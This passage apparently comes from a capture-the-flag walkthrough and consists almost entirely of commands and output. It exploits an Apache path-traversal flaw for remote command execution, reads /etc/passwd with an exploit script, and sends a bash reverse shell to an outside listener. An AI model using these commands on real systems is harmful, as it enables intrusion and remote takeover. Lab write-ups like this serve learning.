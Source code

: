 ```jsx
daemon
/bin
uid=1(daemon) gid=1(daemon) groups=1(daemon)
```

`curl -skL -X GET 'http://ohmyweb.thm/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/bash' -d 'echo Content-Type: text/plain; echo; which python3' -H "Content-Type: text/plain"`

```jsx
/usr/bin/python3
```

`nano targets.txt`

```jsx
10.10.65.171
```

`chmod +x 50383.sh`

`bash 50383.sh targets.txt '/bin/sh' "cat /etc/passwd"`

```jsx
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
messagebus:x:101:102::/nonexistent:/usr/sbin/nologin
```

`nano revshell.txt`

```jsx
bash -i >& /dev/tcp/10.2.37.37/11143 0>&1
```

`nc -nlvp 11143`

```jsx
listening on [any] 11143 ...
```

`curl -skL -X GET 'http://ohmyweb.thm/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/bash' -d 'echo Content-Type: text/plain; echo; bash -i >& /dev/tcp/10.2.37.37/11143 0>&1' -H "Content-Type: text/plain"`
